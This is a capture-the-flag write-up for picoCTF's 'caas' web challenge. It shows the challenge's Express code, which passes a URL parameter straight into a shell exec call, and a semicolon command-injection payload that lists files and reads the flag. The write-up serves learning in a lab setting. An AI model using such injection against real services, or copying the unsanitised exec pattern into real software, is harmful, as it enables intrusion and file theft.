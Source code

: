 # caas
## AUTHOR: BROWNIEINMOTION

### Description:
Now presenting [cowsay as a service](https://caas.mars.picoctf.net/)

File:
[index.js](https://artifacts.picoctf.net/picoMini+by+redpwn/Web+Exploitation/caas/index.js)

## 1. Knowledge
### 1.1 Command line
You can write multi-line code in a shell script (using ```;```), like this:
```sh
whoami;ls -al;cat <something>
```
The flow work will be like this:
```whoami``` $\to$ ```ls -al```$\to$```cat <something>```

### 2. Solution
Check source code in the file ```index.js```

```js
const express = require('express');
const app = express();
const { exec } = require('child_process');

app.use(express.static('public'));

app.get('/cowsay/:message', (req, res) => {
  exec(`/usr/games/cowsay ${req.params.message}`, {timeout: 5000}, (error, stdout) => {
    if (error) return res.status(500).end();
    res.type('txt').send(stdout).end();
  });
});

app.listen(3000, () => {
  console.log('listening');
});
```
You can see that ```/usr/game/cowsay ${req.params.message}``` is dangerous because you can use multi-line code in there, like this:

```
cowsay imhere;ls;cat falg.txt
```

<p align="center">
    <img src="https://media.giphy.com/media/Lopx9eUi34rbq/giphy.gif"/>
</p>

---

minhchi